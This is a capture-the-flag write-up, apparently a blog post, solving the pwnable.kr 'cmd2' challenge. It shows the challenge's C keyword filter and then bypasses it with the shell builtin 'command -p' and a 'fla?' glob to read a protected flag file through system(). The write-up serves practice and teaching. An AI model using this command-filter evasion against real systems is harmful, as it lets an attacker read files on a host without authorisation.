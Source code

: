 ```yaml
---
layout: post
title: pwnable.kr - cmd2
---
```


## Prompt
Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)

## Files
We are given an executable `cmd2`, its source `cmd2.c`, and a `flag` file.

**cmd2.c**:
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```
This time the filtering is more serious. We can no longer specify the path of `cat`, but "flag" is still easy to bypass. 

```
cmd2@pwnable:~$ ./cmd2 "cat fla?"
cat fla?
sh: 1: cat: not found
```
Let's check the manual page for `sh`, looking for mentions of `PATH`.

```md
**Path Search**
 When locating a command, the shell
 first looks to see if it has a shell
 function by that name.  Then it looks
 for a builtin command by that name.  If
 a builtin command is not found, one of
 two things happen:

 1.   Command names containing a slash
      are simply executed without per‐
      forming any searches.

 2.   The shell searches each entry in
      PATH in turn for the command.  The
      value of the PATH variable should
      be a series of entries separated
      by colons.  Each entry consists of
      a directory name.  The current
      directory may be indicated implic‐
      itly by an empty directory name,
      or explicitly by a single period.
[...]
**Builtins**
[...]
 command [-p] [-v] [-V] command [arg
        ...]
        Execute the specified command
        but ignore shell functions when
        searching for it.  (This is use‐
        ful when you have a shell func‐
        tion with the same name as a
        builtin command.)

        -p     search for command using
               a PATH that guarantees to
               find all the standard
               utilities.
```
Let's give `command` a shot:
```
cmd2@pwnable:~$ command -p echo a
a
cmd2@pwnable:~$ command -p cat flag
cat: flag: Permission denied
```
## Solution

```
cmd2@pwnable:~$ ./cmd2 "command -p cat fla?"
command -p cat fla?
{flag}
```